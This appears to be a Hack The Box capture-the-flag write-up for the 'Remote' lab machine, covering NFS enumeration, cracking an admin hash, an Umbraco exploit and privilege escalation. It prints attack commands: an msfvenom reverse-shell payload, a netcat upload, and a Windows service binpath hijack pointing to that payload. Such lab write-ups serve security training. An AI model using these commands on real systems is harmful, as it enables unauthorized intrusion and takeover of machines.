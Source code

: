 # Hack The Box
  &nbsp; Machine : Remote <br>
  &nbsp; Machine IP : 10.10.10.180 <br>

# Scanning File
  &nbsp; Reference file : Gathering/RemoteScanning.txt <br>

# Install mount tool
  &nbsp; 1.Install nfs tools command on Kali linux<br>
    &nbsp; https://www.hiroom2.com/2017/08/01/kalilinux-2017-1-nfs-common-en/

  &nbsp; 2.RPC tool using it <br>
    &nbsp;https://resources.infosecinstitute.com/exploiting-nfs-share/#gref

# Information Gathering (Enumerating)
1. nmap -sC -sV -oN RemoteScanning.txt 10.10.10.180 <br>
  : appear interesting port on 2049 <br>
  : reference file to : Gathering/RemoteMachineScanning.md

2. nmap -sV --script=nfs-showmount -oN remote.nfs 10.10.10.180 <br>
  : Searching for something NFS Directory <br>
   
3. mount "/site_backups" folder <br>
  : showmount -e 10.10.10.180 ( find to connect for directory )<br>
  : mount -t nfs 10.10.10.180:/site_backups /mnt ( mount nfs directory )<br>
 
4. find . -name "\*.sdf" (interesting file.. ?)<br>
  : Try to search for information file <br>
  : You can see the result in filename "Gathering/logging.txt" <br>
  : Hash Value is "b8be16afba8c314ad33d812f22a04991b90e2aaa : baconandcheese " <br>
  : Decrypt Site -> https://md5decrypt.net/en/Sha1/#answer <br>
  : Question. What is sdf file ? <br> 

5. cat \*.sdf |grep admin >> logging.txt <br>
  : logging in *.sdf to file save  <br>

# Gaining
powershell reverse shell script  
reverse shell script file name : mini-reverse.ps1

Find it PoC Link<br>
https://www.exploit-db.com/exploits/46153

  1.Gaining/umbraco_cve1.py <br>
  &nbsp; : nc.exe upload!  <br>

  2.Gaining/umpbraco_cve2.py  <br>
  &nbsp; : reverse connection script  <br>

  3.Ganing/umbraco_cve3.py <br>
  &nbsp; : it is revershell.exe made by msfvenom<br>
  &nbsp; : msfvenom -p windows/shell_reverse_tcp lhost=ip lport=port -f exe --platform windows > reverse.exe

# Privilage Escalte
1.wmic service where started=true get name, startname <br>
: find user account privilage service <br> 
2. UsoSvc<br>
: this is user account privilage service <br>
: sc stop usosvc (Stop The Service Command) <br>
: sc config usosvc binpath="c:\windows\temp\reverse.exe" <br>

# Reference Site
1. Walk Throught
https://phantominfosec.wordpress.com/2020/03/31/htb-remote-walkthrough/

2. Walk Throught
https://blog.csdn.net/qq_32261191/article/details/105082982 
